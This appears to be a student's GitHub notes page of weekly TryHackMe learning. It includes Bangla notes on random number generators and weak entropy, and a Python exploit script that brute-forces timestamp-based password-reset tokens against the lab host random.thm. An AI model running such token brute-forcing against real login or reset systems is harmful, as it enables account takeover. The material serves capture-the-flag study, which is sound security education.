


# Weekly-Learning-Outcome


---
---
---

## ToolsRus 


---
---
---

## Spring4Shell


---
---
---


## Hacking With Powershell


#### Solve the room with the help of this writeup 

```
https://medium.com/@austindwarner8/hacking-with-powershell-learn-the-basics-of-powershell-and-powershell-scripting-811af66ee0fa
```


## Insecure Randomness



## Task_4: solving python code[updated]
```

import requests
import sys
import time  # <-- added

# Function to brute force the reset token
def brute_force_token(username):
    url = "http://random.thm:8090/case/reset_password.php"
    
    # Get current timestamp automatically
    start_timestamp = int(time.time())
    
    print(f"[+] Starting timestamp: {start_timestamp}")
    
    # Try tokens within a range of -5 minutes
    for i in range(-300, 0):
        current_timestamp = start_timestamp + i
        token = f"{username}{current_timestamp}"
        params = {'token': token}
        
        response = requests.get(url, params=params)
        
        # Check if the token is valid
        if "Invalid or expired token." not in response.text:
            print(f"[✔] Correct token identified: {token}")
            return token
        else:
            print(f"[✖] Tried token: {token} (Invalid)")
    
    print("[-] No valid token found in the given range.")
    return None


if len(sys.argv) != 2:
    print("Usage: python exploit.py <username>")
    sys.exit(1)

username = sys.argv[1]

# Call function without passing timestamp
brute_force_token(username)


```


# 🔐 Random Number Generator Notes (Bangla)

## 🎲 True Random Number Generator (TRNG)

👉 বাস্তব physical source থেকে random নেয়
👉 সম্পূর্ণ unpredictable

**Example:**

* বাতাসের noise 🌬️
* hardware thermal noise
* radioactive decay

➡️ এগুলো আগাম guess করা যায় না ✅

---

## 🔢 Pseudo Random Number Generator (PRNG)

👉 algorithm দিয়ে random তৈরি করে
👉 আসলে fully random না (predictable)

**Example (Python):**

```python
import random
random.seed(5)
print(random.randint(1,100))
```

➡️ একই seed দিলে same output 🔁

---

## 📊 Statistical PRNG

👉 সাধারণ কাজের জন্য
👉 দেখতে random লাগে, কিন্তু secure না

**Example:**

* Game 🎮
* Simulation

➡️ attacker predict করতে পারে ❌

---

## 🔐 Cryptographically Secure PRNG (CSPRNG)

👉 security purpose-এর জন্য
👉 predict করা খুব কঠিন

**Example (Python):**

```python
import secrets
print(secrets.randbelow(100))
```

➡️ Uses:

* Password
* Token
* OTP

---

## 🌱 Seed

👉 PRNG শুরু করার initial value

**Example:**

* seed = 10 → এক output
* seed = 20 → অন্য output

➡️ Same seed = same result 🔁

---

## 🌪️ Entropy

👉 randomness-এর quality

* High entropy ✅ → unpredictable
* Low entropy ❌ → easily guessable

**Example:**

* Mouse movement → high entropy
* শুধু time() → low entropy

---

## ⚠️ Weak Entropy (কেন ও কিভাবে হয়?)

### ❓ কেন হয়?

* কম randomness source
* predictable input ব্যবহার

### 🔍 কিভাবে হয়?

* শুধু `time()` দিয়ে token তৈরি
* fixed seed ব্যবহার
* pattern follow করা

**Example:**

```php
token = username + time()
```

➡️ attacker সময় guess করে token বের করতে পারে 😈

---

## ❗ কেন dangerous?

👉 attacker easily predict করতে পারে
👉 system hack হতে পারে

**Real Case:**

* Password reset token brute force 🔥

---

## 📊 Diagram (Simple Understanding)

```
        [ Real World Noise ]
               │
               ▼
             TRNG
               │
     ----------------------
     │                    │
 High Entropy        True Random


        [ Seed ]
          │
          ▼
        PRNG Algorithm
          │
     ----------------------
     │                    │
 Statistical PRNG     CSPRNG
 (Not Secure)        (Secure)


Weak Entropy Example:

   username + time()  ❌
          │
          ▼
   Predictable Token → Attack Possible 😈
```

---

## 🧠 Quick Summary

* TRNG = real random ✅
* PRNG = algorithm-based ❌
* Statistical PRNG = non-secure
* CSPRNG = secure
* Seed = starting value
* Entropy = randomness 


# Windows Privilege Escalation

## Via Schedule Task: 
### Thm room link:  [click](https://tryhackme.com/room/windows10privesc)


